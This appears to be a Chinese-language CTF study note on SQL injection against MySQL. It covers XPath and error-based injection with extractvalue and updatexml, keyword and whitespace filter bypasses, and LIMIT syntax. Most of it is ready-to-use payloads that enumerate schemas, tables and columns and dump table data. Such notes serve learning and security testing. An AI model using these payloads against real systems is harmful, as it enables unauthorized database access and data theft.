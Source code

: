 -   **XPath没有访问限制，注入出现的位置也就是`cookie`，`headers`，`request` `parameters/input`等。**

```nginx
当select union 等关键字被屏蔽可以使用【^】这个符号来连接函数,
# 如果空格和等号无法发挥作用，空格使用()代替，like代替=号
例：password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23		
flag只出现一半，right需要指定从右边开始显示多少个字符
'^extractvalue(1,concat(0x7e,(select(select(left(password))from(H4rDsq1))),0x7e))%23
```









#### 4、报错注入（==报错输出最大字符数为32个==）

**==limit：第一个参数指定第一个返回记录行的偏移量，第二个参数指定返回记录行的最大数目。初始记录行的偏移量是 0(而不是 1)==**

**第二个参数控制显示数据条数**

```sql
SELECT * FROM table LIMIT 5,10; // 检索记录行 6-15   
  
//为了检索从某一个偏移量到记录集的结束所有的记录行，可以指定第二个参数为 -1：    
SELECT * FROM table LIMIT 95,-1; // 检索记录行 96-last.   
  
//如果只给定一个参数，它表示返回最大的记录行数目：    
SELECT * FROM table LIMIT 5; //检索前 5 个记录行   
  
//换句话说，LIMIT n 等价于 LIMIT 0,n。  
```



>   -   **留言板类型报错注入，寻找注入点的为有查询的地方，在插入数据的地方写上注入语句，注入成功一般会无回显，**
>   -   **【需要注意：# 和 %23的转换，在页面输入框中使用#，浏览器url中使用%23】**
>   -   报错注入的解释：
>       -   ==让它故意报错，将第二个参数中的语句带入数据库中执行，然后显示一个报错执行结果==
>
>   ```nginx
>   可使用的语句：
>   data = ' and extractvalue(1,concat(0x7e,data(),0x7e),1)#
>   	-- 进一步获取所有表名
>   	data = ' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))#
>   	-- 进一步获取表字段
>   	data = ' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='wfy_comments')))#
>   	-- 进一步获取表数据
>   	data = ' and extractvalue(1,concat(0x7e,(select group_concat(id,text,user,name,display)from 表名)))#
>   		-- 如果不能一次性输出所有数据可使用limit
>   		data = ' and extractvalue(1,concat(0x7e,(select group_concat(id,text,user,name,display)from wfy_comments limit 10,11)))#
>   data = ' ^extractvalue(1,concat(0x7e,data(),0x7e),1)#
>   data = ' and updatexml(1,concat(0x7e,(version())),0)#
>   	-- 爆库information_schema,mysql,performance_schema,wfy：
>   	data = ' and updatexml(1,substr(concat(0x7e,(select(group_concat(schema_name))from(information_schema.schemata)),0x7e),40,20),1)#
>   	data = ' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),0)#
>   
>   -- 当关键字[and] 被过滤后可使用[^]代替
>   data = ' ^extractvalue(1,concat(0x7e,data(),0x7e),1)#
>   -- 当关键字[空格]被过滤后可使用[()]代替
>   -- 当所有关键字被正则过滤一次，可使用双写绕过[seselectlect]
>   ```